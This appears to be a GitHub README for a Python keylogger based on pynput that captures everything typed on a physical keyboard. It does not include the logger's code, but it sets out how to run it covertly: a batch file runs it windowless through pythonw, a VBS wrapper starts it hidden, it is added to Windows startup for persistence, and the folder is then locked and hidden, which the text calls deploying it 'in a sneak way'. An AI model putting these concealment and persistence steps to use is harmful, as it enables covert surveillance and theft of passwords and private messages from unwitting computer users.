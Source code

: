 
# Key Logger

A basic key logger which will captures all the detail typed by physical Keyboard
## Tech Stack

 Python 


## Installation

Open Terminal

```bash
python3 -m pip install --upgrade pip
```
Check the pip version
```bash
pip --version
```
If version is showing you're good to go.  


Necessary pip modules 

```bash
pip install pynput

```
Check whether modules are installed properly or not
```bash
pip show pynput

```
If the details are showing you've installed all the necessary modules
## Setup

To deploy this project in a sneak way follow the instructions

*Create a folder here say ```open_it``` and excute the below instructions in it*

### Create a bat file

Copy the below snippet and make changes as said

```bash
@echo off
pythonw.exe "C:\path\to\your\keylogger.py"

```
Save as ```logger.bat```

### Create a vbs script file

Copy the below snippet and make changes as said

```bash
Set WshShell = CreateObject("WScript.Shell")
WshShell.Run "C:\path\to\your\keylogger.bat", 0, False

```
Save as ```logger.vbs```

### Add it to Startup apps 

Press ```WIN + R```

Create a shortcut file for ```logger.vbs```

### Final Step 

Lock and Hide the ```open_it``` folder.
